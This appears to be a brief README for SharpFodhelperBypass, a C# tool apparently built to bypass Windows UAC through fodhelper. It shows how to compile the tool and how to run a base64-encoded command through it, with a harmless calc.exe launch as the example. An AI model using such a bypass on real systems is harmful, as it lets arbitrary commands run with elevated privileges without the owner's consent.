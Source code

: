 # SharpFodhelperBypass

Compile with csc:
C:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe SharpFodhelperBypass.csc

Base64 encode command to run

Execute with base64 encoded command as argument:
SharpFodhelperBypass.exe Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
The above will launch calc.exe
